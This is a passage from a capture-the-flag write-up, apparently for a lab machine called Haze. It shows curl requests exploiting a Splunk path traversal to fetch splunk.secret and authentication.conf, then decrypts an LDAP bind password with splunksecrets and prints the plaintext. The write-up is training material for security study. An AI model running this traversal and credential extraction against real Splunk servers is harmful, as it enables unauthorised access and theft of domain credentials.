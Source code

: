 ### Extracting Splunk Secrets

We can find a list of Splunk configuration files on the following documentation page:

[https://docs.splunk.com/Documentation/Splunk/9.4.2/Admin/Listofconfigurationfiles](https://docs.splunk.com/Documentation/Splunk/9.4.2/Admin/Listofconfigurationfiles)

Checking the contents of documentation pages for each file, we can see where they are located on the local filesystem:

![image.png](image%205.png)

Here, we see that the `authentication.conf` file is supposed to be located at `/etc/system/local/` on the **Splunk** home directory.

After further research, we identify the following Splunk files of interest:

```
/etc/auth/splunk.secret # Encrypts & Decrypts the Passwords in Splunk Configuration Files
/etc/system/local/authentication.conf # Contains the Settings and Values for Authentication
```

We use `curl` to download these files to our attack host:

```bash
BASE="en-US/modules/messaging/C:../C:../C:../C:../C:.."
curl -s "http://haze.htb:8000/$BASE/etc/auth/splunk.secret" -o splunk.secret
curl -s "http://haze.htb:8000/$BASE/etc/system/local/authentication.conf" -o authentication.conf
```

### Decrypting Splunk Passwords

Checking the contents of the `authentication.conf` file, we discover a valid domain user along with its encrypted password:

```bash
...
[Haze LDAP Auth]
SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb
bindDNpassword = $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
...
```

We use the [`splunksecrets`](https://github.com/HurricaneLabs/splunksecrets) tool with the `splunk.secret` file to decrypt the encrypted LDAP password:

```bash
splunksecrets splunk-decrypt \
-S splunk.secret \
--ciphertext '$7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY='
```

```
Ld@p_Auth_Sp1unk@2k24
```
